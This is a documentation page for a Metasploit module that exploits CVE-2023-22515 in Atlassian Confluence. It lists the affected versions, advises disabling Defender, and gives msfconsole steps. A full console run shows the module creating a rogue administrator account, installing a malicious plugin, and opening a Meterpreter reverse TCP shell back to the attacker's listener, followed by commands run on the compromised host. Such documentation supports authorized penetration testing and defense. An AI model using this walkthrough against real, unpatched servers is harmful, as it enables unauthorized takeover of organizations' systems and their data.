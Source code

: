 ## Vulnerable Application
This module exploits an improper input validation issue in Atlassian Confluence, allowing arbitrary HTTP
parameters to be translated into getter/setter sequences via the XWorks2 middleware and in turn allows for
Java objects to be modified at run time. The exploit will create a new administrator user and  upload a
malicious plugins to get arbitrary code execution. All versions of Confluence between 8.0.0 through to 8.3.2,
8.4.0 through to 8.4.2, and 8.5.0 through to 8.5.1 are affected.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis).

## Testing
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download.).
By default the server will listen for HTTP connections on port 8090. This exploit module was tested against Confluence
8.5.1 running on Windows Server 2022.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/atlassian_confluence_rce_cve_2023_22515`
3. `set RHOST 192.168.86.50`
4. `check`
5. `exploit`

## Options

### TARGETURI

The base path for the target servers Confluence installation. By default this option is set to `/`.

### CONFLUENCE_TARGET_ENDPOINT

This is the endpoint used to trigger the vulnerability, and must be reachable by an un authenticated HTTP(S) POST
request. Any Confluence Action endpoint that extends the base class `ConfluenceActionSupport` is likely to work. Two
example endpoints that have been tested are `server-info.action` and `ajax/spaceavailable.action`. By default this
option is set to `server-info.action`.

### CONFLUENCE_PLUGIN_TIMEOUT

The exploit will install a malicious plugin into the Confluence server. Plugin installation is performed asynchronously
and we must poll the server to find out when installation has completed. This option governs the maximum amount
of time to wait for installation to complete. The timeout value is in seconds and by default this option is set to `30`.

## Scenarios

### Automatic
```
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > show options

Module options (exploit/multi/http/atlassian_confluence_rce_cve_2023_22515):

   Name                        Current Setting     Required  Description
   ----                        ---------------     --------  -----------
   CONFLUENCE_PLUGIN_TIMEOUT   30                  yes       The timeout to wait when installing a plugin
   CONFLUENCE_TARGET_ENDPOINT  server-info.action  yes       The endpoint used to trigger the vulnerability.
   Proxies                                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      192.168.86.50       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                                             ploit.html
   RPORT                       8090                yes       The target port (TCP)
   SSL                         false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   /                   yes       Base path for Confluence
   VHOST                                           no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > check
[*] 192.168.86.50:8090 - The target appears to be vulnerable. Atlassian Confluence 8.5.1
msf exploit(multi/http/atlassian_confluence_rce_cve_2023_22515) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Atlassian Confluence 8.5.1
[*] Setting the application configuration's setupComplete to false via endpoint: /server-info.action
[*] Creating a new administrator user account...
[*] Created zskghlfv:NDqbcj4N
[*] Adding a malicious plugin...
[*] Waiting for plugin to be installed...
[*] Triggering payload...
[*] Deleting plugin...
[*] Sending stage (57692 bytes) to 192.168.86.50
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:56898) at 2023-10-16 20:41:57 +0100

meterpreter > getuid
Server username: WIN-V28QNSO2H05$
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_IE
Meterpreter     : java/windows
meterpreter > pwd
C:\Program Files\Atlassian\Confluence
meterpreter > 
```
